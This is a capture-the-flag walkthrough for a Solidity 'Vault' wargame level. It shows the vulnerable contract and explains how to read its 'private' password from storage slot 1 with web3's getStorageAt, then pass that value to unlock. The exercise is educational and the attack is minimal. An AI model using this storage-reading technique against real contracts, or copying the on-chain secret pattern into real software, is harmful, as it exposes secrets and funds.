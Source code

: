 # Challenge 8

<img src="./images/BigLevel8.svg" alt="8" >

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

Challenge
---
> Unlock the vault to pass the level!

Solution 
---
1. `private` - According to Solidity Docs

> Private functions and state variables are only visible for the contract they are defined in and not in derived contracts.

You can read Every State on the blockchain even if it means private vars. 

Solution 
---
1. In this Challenge we see function unlock to unlock the vault.

First We need is Password Remember You can Read Everything on blockchain So, first we see when contract deployed that time password has been set but how do we access? Storage Slot `bool` is `1 byte` and in slot `0` and `password` in slot `1` Storage slot takes 32 bytes space in one slot.

2. Now we will access storage slot with web3js lib open the terminal 
```js
await web3.eth.getStorageAt("0xF642844b3365Af2324C33d88f27eE2Be8bE66BF6",1) // first params contract address, second slot value
```

You Will get This `0x412076657279207374726f6e67207365637265742070617373776f7264203a29`

after that copy this 
```js
await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
```

you will unlock the vault, for that
```js
await contract.locked()
```
it will become false, now submit the instance your challenge will be cleared.